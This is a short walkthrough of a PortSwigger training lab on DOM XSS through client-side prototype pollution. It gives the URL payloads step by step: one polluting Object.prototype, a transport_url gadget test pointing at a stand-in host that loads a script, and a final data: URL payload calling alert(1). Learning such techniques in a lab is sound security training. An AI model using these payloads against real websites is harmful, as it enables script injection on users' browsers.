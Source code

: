 # DOM XSS via client-side prototype pollution

## This lab is vulnerable to [DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based) via client-side [prototype pollution](https://portswigger.net/web-security/prototype-pollution). To solve the lab:

1. Find a source that you can use to add arbitrary properties to the global `Object.prototype`.
2. Identify a gadget property that allows you to execute arbitrary JavaScript.
3. Combine these to call `alert()`.

You can solve this lab manually in your browser, or use [DOM Invader](https://portswigger.net/burp/documentation/desktop/tools/dom-invader) to help you

---


step 1

add into to url `?__proto__[evilProperty]=payload`
go to console type `Object.prototype`
you will see new property added `evilProperty: 'payload'`
it means You've successfully found a prototype pollution source.

![](images/lab1_prototype_pollution.jpg)

step 2

go to source tab
go to js folder you will get searchLogger.js

![](images/lab1_source_seaarchlogger_js_file.jpg)

**NOTE**:
![](images/lab1_notes_on_transport_url.jpg)

step 3

test payload `?__proto__[transport_url]=//evil-user.net`
you will notice in elements tab `<script>` element has been rendered on the page

![](images/lab1_script_element_render.jpg)

step 4
final payload `?__proto__[transport_url]=data:,alert(1);//`
you will get pop up alert

![](images/lab1_alert_pop_up.jpg)

![](images/lab1_solved_lab.jpg)
